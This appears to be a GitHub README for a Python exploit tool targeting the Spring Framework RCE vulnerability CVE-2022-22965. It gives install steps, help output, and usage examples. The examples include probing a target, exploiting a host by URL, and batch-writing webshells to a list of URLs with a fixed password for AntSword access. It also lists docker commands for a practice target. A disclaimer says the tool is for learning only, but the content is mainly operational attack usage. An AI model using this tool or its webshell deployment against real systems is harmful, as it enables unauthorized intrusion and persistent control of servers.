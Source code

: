 # Spring Core RCE/CVE-2022-22965

> 影响范围：JDK>=9 的spring框架及衍生框架
>
> [文章指路](https://thehackernews.com/2022/03/unpatched-java-spring-framework-0-day.html)
>
> **脚本仅供学习使用，如作他用所承受的法律责任一概与作者无关**

## 1.installation

~~~shell
pip3 install -r requirements.txt
~~~

## 2.Usage

```shell
$ python3 spring-core-rce.py -h

 .----..-.-. .---. .-..-. .-..----.     .----. .---. .---. .----.     .---. .----..----.
{ {__-`| } }}} }}_}{ ||  \{ || |--' ___ | }`-'/ {-. \} }}_}} |__} ___ } }}_}| }`-'} |__}
.-._} }| |-' | } \ | }| }\  {| }-`}{___}| },-.\ '-} /| } \ } '__}{___}| } \ | },-.} '__}
`----' `-'   `-'-' `-'`-' `-'`----'     `----' `---' `-'-' `----'     `-'-' `----'`----'


                                                 Spring framework Core RCE
                                                                  By:K3rwin
usage: spring-core-rce.py [-h] [-u URL] [-s SYSTEM] [-r FILE]

Spring framework Core 0day RCE 帮助指南

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定url
  -s SYSTEM, --system SYSTEM
                        指定目标主机操作系统,默认linux,参数为win/linux
  -r FILE, --file FILE  指定url文件，批量写马
```

## 3.example

>无损探测
>
>-u,--url    或者使用-f,--file批量探测
>
>-c,--check,参数为自建http服务，可用`python3 -m http.server 80`快速搭建一个web服务器
>
>主要在内网且要求无损探测漏洞的情况下使用

```shell
python3 spring-core-rce.py -u "http://172.26.155.18:8080/" --check "http://172.26.155.18"
```

![image-20220422153433867](README.assets/image-20220422153433867.png)

>使用 -u指定url，-s指定操作系统  参数为：linux 或者 win，默认为linux

```shell
python3 spring-core-rce.py -u "http://1.117.155.217:8080/" -s "linux"
```

![image-20220331203209702](README.assets/image-20220331203209702.png)

![image-20220331203858753](README.assets/image-20220331203858753.png)

> 使用 -r 批量写马 ，使用蚁剑连接，密码为k3rwin

~~~shell
python3 spring-core-rce.py -r "urls.txt"
~~~

![image-20220402112140568](README.assets/image-20220402112140568.png)

![image-20220402112349943](README.assets/image-20220402112349943.png)

## 4.Target

### ①.本地搭建docker靶场:

`docker pull vulfocus/spring-core-rce-2022-03-29:latest`

`docker run -d -p 8080:8080 --name spring-core-rce -it vulfocus/spring-core-rce-2022-03-29`

### ②.[在线靶场](http://vulfocus.io/#/dashboard)